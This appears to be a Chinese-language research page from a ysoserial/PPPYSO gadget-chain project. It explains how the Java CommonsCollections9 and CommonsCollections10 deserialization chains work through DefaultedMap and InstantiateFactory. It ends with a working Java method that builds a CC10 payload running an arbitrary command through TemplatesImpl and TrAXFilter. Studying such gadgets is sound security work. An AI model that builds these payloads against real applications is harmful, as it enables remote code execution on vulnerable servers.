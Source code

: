 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollections9、10

## 0x01 DefaultedMap

在 CC1 中介绍了抽象类 `AbstractMapDecorator `提供一个基础装饰器，允许通过装饰器向 Map 添加附加功能，以下类对其进行了实现。

![image-20230801172048722](attachments/image-20230801172048722.png)

CC9 的话就是选择了 DefaultedMap 来实现，这条 gadget 与 CC5 类似比较简单，通过其 get() 方法触发 value 的 transform()，value通过构造方法构造就行

![image-20230802114959694](attachments/image-20230802114959694.png)

![image-20230802115056114](attachments/image-20230802115056114.png)

## 0x02 InstantiateFactory

在之前分析 LazyMap 时，我们通过 factory 来调用 transform ，factory 通过 `LazyMap.decorate()` 传入一个 Transformer 来赋值。

![image-20230802150731236](attachments/image-20230802150731236.png)

而 LazyMap 还提供了一个构造方法可以直接传递构造好的 Factory，接收 FactoryTransformer 类型的参数，如果可以突破这个类型的限制构造任意 factory 一样能达到我们的目的，最简单的方式是 LazyMap 构造一个正常的后直接反射去修改。

![image-20230802151106190](attachments/image-20230802151106190.png)

关于 Factory 接口在这些类中实现

![image-20230802151255578](attachments/image-20230802151255578.png)

CC10 这条 gadget 用 InstantiateFactory 替换了 InstantiateTransformer，InstantiateFactory 这个类用于通过反射创建新对象实例的工厂实现，那么这时候的实现思路就很简单了：

1. LazyMap.decorate() 创建一个对象，同样可以传入一个初始化的 `new ConstantTransformer(1)` 更改报错信息
2. 将之前的 TrAXFilter 和 TemplatesImpl 转化为 InstantiateFactory 构造，之后通过反射修改 LazyMap 的 factory 值

InstantiateFactory 的构造也比较简单，直接传 TrAXFilter 和 Templates 的类型与值就好了。

![image-20230802153416077](attachments/image-20230802153416077.png)

Kick-off 的话 hashmap、BadAttributeValueExpException 都随意，最终构造如下：

```java
public Object getObject(String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class, new Class[]{Templates.class}, new Object[]{templates});
    FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);
    ConstantTransformer constantTransformer = new ConstantTransformer(1);

    Map innerMap = new HashMap();
    LazyMap outerMap = (LazyMap) LazyMap.decorate(innerMap, constantTransformer);
    TiedMapEntry entry = new TiedMapEntry(outerMap, "Whoopsunix");
    Map expMap = new HashMap();
    expMap.put(entry, "Whoopsunix");
    Reflections.setFieldValue(outerMap, "factory", factoryTransformer);
    outerMap.clear();

    return expMap;
    // BadAttributeValueExpException val = new BadAttributeValueExpException(null);
    // Reflections.setFieldValue(val, "val", entry);
    // Reflections.setFieldValue(outerMap, "factory", factoryTransformer);

    // return val;  
}
```
